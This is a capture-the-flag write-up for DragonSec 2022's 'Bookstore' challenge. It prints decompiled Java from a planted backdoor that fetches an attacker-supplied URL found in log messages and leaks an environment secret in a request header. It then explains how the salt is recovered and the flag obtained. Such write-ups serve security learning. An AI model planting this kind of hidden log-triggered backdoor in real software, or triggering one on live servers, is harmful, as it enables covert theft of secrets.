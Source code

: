 ```yaml
---
title: Bookstore.json
author: VaiTon
ShowToc: true
date: 2022-04-18
---
```


The Bookstore.java challenge stated that:

> Web developer left the company becouse he was not being paid. He left some hidden features for him, to bypass security. Can you find the vunerability? http://book-store.dragonsec.si


And gave us a [`book_store.jar`](/ctf/dragonsec-2022/bookstore/book_store.jar) file.

## The Log4Book

If we open the jarfile with a decompiler (like [JD-GUI](https://java-decompiler.github.io/)) we can see that there is a vulnerability in the log analyzer.

```java
Pattern pattern2 = Pattern.compile("get\\{.*\\}salt=" + System.getenv("SALT"));
Matcher matcher2 = pattern2.matcher(mssg);
String substring2 = null;
if (matcher2.find()) {
   substring2 = matcher2.group();
}
if (substring2 != null) {
    downloadFile(substring2.substring(substring2.indexOf(123) + 1, substring2.indexOf(125)));
}
```

If the log string contains the template `get{...}salt=` plus the env var `SALT` the program tries to send an HTTP request to the url between `{...}` with the header `Not-Found:` and the env var `NOT_FOUND` as the value.

```java
URL link = new URL(url);
link.toURI();
HttpURLConnection conn = (HttpURLConnection) link.openConnection();
conn.setRequestMethod("GET");
conn.setRequestProperty("not-found", System.getenv("NOT_FOUND"));
```

## Finding the salt
We're given a hint:

> Method how the salt is generated is given through variable names in one java class. The salt is 8 chars long.

If we look at the class `Art` we can see that there are two strange variable names:

```java
> String frequency = fontType.getValue();
int analysis_should_be_fun = findImageWidth(textHeight, artText, frequency);
```

which create: *frequency analysis should be fun*

## Analyzing the frequency

After trying to find some studies about the frequency analisis of Shakespeare plays without any result, we remember that the hint stated that the salt is **8 chars** and there are exactly **8 paragraphs** in the page presented in the website and in the file [`book.json`](/ctf/dragonsec-2022/bookstore/book.json)

If we join the most repeated letter of each paragraph we get the salt and then we can get the program to ping our url with the flag.

> Salt: `oeeeeooo`

> Flag: `dctf{L0g_4_hid3n_d@7@_n0t_s0_h@rd_righ7}`
